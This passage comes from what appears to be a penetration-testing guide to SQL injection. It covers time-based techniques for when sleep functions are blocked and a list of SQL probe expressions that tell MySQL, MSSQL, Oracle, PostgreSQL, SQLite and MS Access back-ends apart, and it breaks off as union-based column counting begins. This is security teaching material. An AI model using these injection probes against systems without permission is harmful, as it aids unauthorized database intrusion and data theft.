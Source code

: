 In some cases the **sleep functions won't be allowed**. Then, instead of using those functions you could make the query **perform complex operations** that will take several seconds. _Examples of these techniques are going to be commented separately on each technology \(if any\)_.

### Identifying Back-end

The best way to identify the back-end is trying to execute functions of the different back-ends. You could use the _**sleep**_ **functions** of the previous section or these ones:

```bash
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```

Also, if you have access to the output of the query, you could make it **print the version of the database**.

{% hint style="info" %}
A continuation we are going to discuss different methods to exploit different kinds of SQL Injection. We will use MySQL as example.
{% endhint %}

## Exploiting Union Based

### Detecting number of columns

If you can see the output of the query this is the best way to exploit it.  
First of all, wee need to find out the **number** of **columns** the **initial request** is returning. This is because **both queries must return the same number of columns**.  
Two methods are typically used for this purpose:
